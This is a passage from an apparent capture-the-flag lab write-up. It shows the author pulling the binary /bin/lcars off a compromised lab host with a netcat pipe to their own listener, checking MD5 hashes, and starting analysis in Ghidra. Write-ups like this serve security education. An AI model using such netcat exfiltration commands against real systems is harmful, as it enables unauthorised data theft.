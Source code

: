 

### Static Analysis

#### Exfil

At this point I can play with each of these functions, but I'm more
interested in looking at it in Ghidra.

I'll grab a copy of this file locally with `nc`, starting my listener on
my box, and then running:



    www-data@enterprise:/$ cat /bin/lcars | nc 10.10.14.8 443



At my VM:



    oxdf@parrot$ nc -lnvp 443 > lcars
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.61] 55874
    ^C



This will hang, but I'll just Ctrl-c after a few seconds. Always check
the hashes after this kind of exfil:



    www-data@enterprise:/$ md5sum /bin/lcars 
    cf72dd251d6fee25e638e9b8be1f8dd3  /bin/lcars





    oxdf@parrot$ md5sum lcars
    cf72dd251d6fee25e638e9b8be1f8dd3  lcars



Looks good.

#### Ghidra

I'll import the binary into a Ghidra project, and then open it in the
code browser and let it do the run analysis steps.

There aren't too many functions:
